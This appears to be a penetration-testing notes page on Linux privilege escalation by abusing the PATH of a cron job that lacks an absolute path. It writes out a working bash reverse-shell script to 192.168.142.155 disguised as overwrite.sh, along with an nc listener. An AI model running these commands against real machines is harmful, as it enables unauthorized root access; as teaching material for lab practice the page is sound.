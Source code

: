 # PATH environment abuse

The crontab PATH environment variable is by default set to /usr/bin:/bin. The PATH variable can be overwritten in the crontab file. If a cron job program/script does not use an absolute path, and one of the PATH directories is writable by our user, we may be able to create a program/script with the same name as the cron job.

{% code overflow="wrap" %}
```bash
cat /etc/cron
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (63).png" alt=""><figcaption></figcaption></figure>

There is no absolute path to run the overwrite.sh. You can add an additional PATH environment and create a new 'overwrite.sh' to run.&#x20;

{% code overflow="wrap" %}
```bash
# Target machine 
echo -e '#!/bin/bash\nbash -i >& /dev/tcp/192.168.142.155/54 0>&1' > /home/bla/overwrite.sh

export PATH=/home/bla:$PATH
```
{% endcode %}

Run nc and wait for a victim machine to run the cron job.

{% code overflow="wrap" %}
```bash
nc -nlvp 54
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (64).png" alt=""><figcaption></figcaption></figure>
